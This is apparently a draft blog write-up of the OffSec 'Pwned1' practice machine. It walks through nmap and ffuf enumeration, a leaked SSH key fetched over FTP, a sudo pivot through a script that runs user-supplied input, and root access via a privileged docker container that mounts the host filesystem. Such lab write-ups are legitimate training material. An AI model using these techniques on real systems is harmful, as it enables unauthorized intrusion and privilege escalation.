







+++
title = 'Offsec Pwned1'
date = 2024-03-16T12:59:08+01:00
draft = true
categories = ['Offsec', 'Machine', 'Intermediate']
+++

## Enumeration & User

We scan open TCP ports with nmap.

    sudo nmap -vv --reason -Pn -p- -T5 -sVC --version-all -A -oN nmap-result-tcp.txt 192.168.166.95

```
PORT      STATE    SERVICE REASON         VERSION
21/tcp    open     ftp     syn-ack ttl 61 vsftpd 3.0.3
22/tcp    open     ssh     syn-ack ttl 61 OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 fe:cd:90:19:74:91:ae:f5:64:a8:a5:e8:6f:6e:ef:7e (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDaQPyAx8qSGlWyyuL5xu/6lWdbWs6VArMlRC71wt11kYKMGUTuVmPvLAdSAL66haaz0DCvquZMOmeYNHvM7/OjfmkwlIt3Wv53q/23AODRwPGkpj00QCNH/Vqt6Aw94Afo3etyW9SU3vzLC2F3mS18cqXApmV90NIH3d6ayhsDP+aPuQFoFqEzDxzy2RkosueaEERECT0auT+pTIwRMCHBEVX98Srd8+ax1yhWITRTGOYXcdocx0m9tooFUEH/a1P3RK3gBzCL63ZejMN9YofBl8y+CwCt+0nBLg+PtNjjskD9CaBwxUmH0/UM24z9BQecPn3IFmm3+P5U0z1DQEhf
|   256 81:32:93:bd:ed:9b:e7:98:af:25:06:79:5f:de:91:5d (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBDHWpwgF92XD4REIANL7X9lMcQSwcbhlNqwBvNi8l4SzQn5MjSzlBQzgcC7Kro57lCr0kImH+XdijG+r6lyps70=
|   256 dd:72:74:5d:4d:2d:a3:62:3e:81:af:09:51:e0:14:4a (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHPgRt1LF33Ttn5DuGuJJpmgbMd2ofAkqEt6gTOQK+WW
80/tcp    open     http    syn-ack ttl 61 Apache httpd 2.4.38 ((Debian))
| http-methods:
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Pwned....!!
```

Let's visit the http webpage.



Not much here. We'll perform content discovery with ffuf.

    ffuf -u http://192.168.166.95/FUZZ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -ac -r -o ffuf-dir.json

We get 2 interesting results.

```
nothing                 [Status: 200, Size: 947, Words: 62, Lines: 17, Duration: 50ms]
                        [Status: 200, Size: 3065, Words: 1523, Lines: 76, Duration: 46ms]
hidden_text             [Status: 200, Size: 954, Words: 65, Lines: 17, Duration: 45ms]
```

Let's check *nothing* first.





There's nothing there!

On the other hand, *hidden_text* contains an interesting file: *secret.dic*.


Its contents look like a list of paths.

```
/hacked
/vanakam_nanba
/hackerman.gif 
/facebook
/whatsapp
/instagram
/pwned
/pwned.com
/pubg 
/cod
/fortnite
/youtube
/kali.org
/hacked.vuln
/users.vuln
/passwd.vuln
/pwned.vuln
/backup.vuln
/.ssh
/root
/home
```

We'll run another ffuf scan, this time using *secret.dic* as the wordlist.

    ffuf -u http://192.168.166.95/FUZZ -w secret.dic -ac -r -o secret-dic-dir.json

We get 1 result back.

    /pwned.vuln             [Status: 200, Size: 673, Words: 44, Lines: 34, Duration: 50ms]

We visit the */pwned.vuln* page.



There are credentials hidden in the page source. They don't work on the */pwned.vuln* page, however the username sounds like it could work for FTP so we'll try connecting to it.



We download the files and read *note.txt*.

```

Wow you are here 

ariana won't happy about this note 

sorry ariana :( 


```

We adjust the *id_rsa* permissions.

    chmod 600 id_rsa

We try connecting via SSH using the *id_rsa* key and specifying *ariana* as the username.

    ssh -i id_rsa ariana@192.168.166.95

After a successful connection, we obtain the user flag.



## Pivot to selena via */home/messenger.sh*

We check ariana's sudo permissions.

```
ariana@pwned:~$ sudo -l
Matching Defaults entries for ariana on pwned:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User ariana may run the following commands on pwned:
    (selena) NOPASSWD: /home/messenger.sh
```

Ariana is allowed to run */home/messenger.sh* as *selena*, so let's check the file.

```
ariana@pwned:~$ cat /home/messenger.sh 
#!/bin/bash

clear
echo "Welcome to linux.messenger "
                echo ""
users=$(cat /etc/passwd | grep home |  cut -d/ -f 3)
                echo ""
echo "$users"
                echo ""
read -p "Enter username to send message : " name 
                echo ""
read -p "Enter message for $name :" msg
                echo ""
echo "Sending message to $name "

$msg 2> /dev/null

                echo ""
echo "Message sent to $name :) "
                echo ""

```

The script simply runs a message provided by us, so we use it to pivot to *selena* by executing *bash*.



## Privilege escalation to root via docker

We check what groups *selena* is in.

```
selena@pwned:~$ id
uid=1001(selena) gid=1001(selena) groups=1001(selena),115(docker)
```

*Selena* can run docker on the machine. We'll use it to escalate to root.
We download ubuntu image locally and save it to *ubuntu.tar*

```
docker image pull ubuntu 
docker save ubuntu > ubuntu.tar 
```

We copy it over to the machine.

```
scp -P 22 -i id_rsa ubuntu.tar ariana@192.168.166.95:/tmp/ubuntu.tar
```

As *selena*, we load *ubuntu.tar* and run it with the *--privileged* flag

```
docker load < ubuntu.tar
docker run --rm -it --pid=host --net=host --privileged -v /:/host ubuntu bash
```

We're now root! We look for the flag.

    find / -iname '*.txt' 2>/dev/null

We find it in */host/root/proof.txt*.

## References
- https://swisskyrepo.github.io/InternalAllTheThings/redteam/escalation/linux-privilege-escalation/#docker